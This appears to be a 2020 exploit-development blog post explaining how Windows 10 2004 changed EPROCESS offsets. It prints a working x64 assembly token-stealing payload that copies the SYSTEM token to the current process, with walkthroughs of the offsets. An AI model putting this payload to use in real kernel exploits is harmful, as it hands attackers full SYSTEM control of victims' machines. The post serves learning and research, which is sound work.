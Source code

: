 ```yaml
---
layout: post
title: 'Windows 10 2004 (20H1) Token Stealing Payload and EPROCESS Changes'
date: '2020-06-21T00:00:00.000-00:00'
author: Keramas
tags: [kernel,exploit development]
---
```


I recently re-did my Windows kernel debugging environment with the latest version of Windows 10, 2004 (20H1), and while writing a proof of concept for a driver exploit, I noticed that the token stealing payload I was using was breaking due to a bad dereference when it was crawling the EPROCESS structure. This meant that the offsets had once again changed in this new Windows build. 

## Token Stealing Payload 

The following is the updated token stealing payload that works on Windows 10 2004.

```asm
; Windows 10 x64 2004 Token Stealing Payload

[BITS 64]

__start:
	xor rax, rax
	mov rax, [gs:0x188]	; Current thread -> _KTHREAD
	mov rax, [rax + 0xb8]	; Current process -> _EPROCESS
	mov r8, rax		; Move current process' _EPROCESS to r8

__loop:
	mov rax, [rax + 0x448]	; ActiveProcessLinks
	sub rax, 0x448		; Return to current process -> _EPROCESS
	mov rcx, [rax + 0x440]	; UniqueProcessId (PID)
	cmp rcx, 4		; Compare PID to SYSTEM process PID (0x4)
	jnz __loop		; Iterate over EPROCESS nodes until SYSTEM PID is located

	mov r9, [rax + 0x4b8]	; _EPROCESS + 0x4b8 -> token
	mov [r8 + 0x4b8], r9	; Copy SYSTEM token to current process
```

For those who are unfamiliar with how the above payload works to grant system-level privilges, lets walk through the assembly a bit while explaining about the EPROCESS structure.

As the name implies, this payload aims to escalate privileges when it runs in ring 0 by grabbing a system-level token from the System process (PID of 4), and then replacing the current process' token with it. To accomplish this, it crawls several structures in order to reach the token in the System process.

First, Windows stores the location of the KTHREAD structure in the `gs` register at offset `0x188` (`[gs:0x188]`), and at offset 0xb8 of that structure, there is a pointer to the EPROCESS structure of the current process. 

The EPROCESS structure contains various process-related attributes and pointers to other structures. For the token stealing payload, several offsets will need to be gathered:

- Offset to ActiveProcessLinks
- Offset to the UniqueProcessId (the PID of the process)
- Offset to token associated with the process

From WinDBG, the EPROCESS structure can be explored the with the following command:
```
dt nt!_EPROCESS <address of process>
```

<img src = "/assets/images/EPROCESS.png">

The address used in the image is the address of the System process. The `UniqueProcessId` is located at offset `0x440`, and as the value shows, it is `0x4`, which is always the PID of the System process. Additionally, `ActiveProcessLinks` can be found at offset `0x448`. This points to the `LIST_ENTRY` structure which is a doubly-linked list containing EPROCESS nodes. This list is then iterated over and the PID is checked to see whether the value is 0x4 or not. Once it is found, the token of that process will be taken, as the System process is running under the context of nt authority\system. 

<img src = "/assets/images/EPROCESS_TOKEN.png">

The token can be found at offset `0x4b8` in the EPROCESS structure. The value present here will then replace the token of the current process in the final instruction of the payload allowing for the escalation of privileges. 

## In Summary / TL;DR

- New offsets within EPROCESS structure for Windows 10 2004
- As it relates to ring 0 token stealing payloads:
  - UniqueProcessId is now at 0x440
  - ActiveProcessLinks is now at 0x448
  - Token is now at 0x4b8
- Update payloads accordingly when running on the latest version of Windows 10
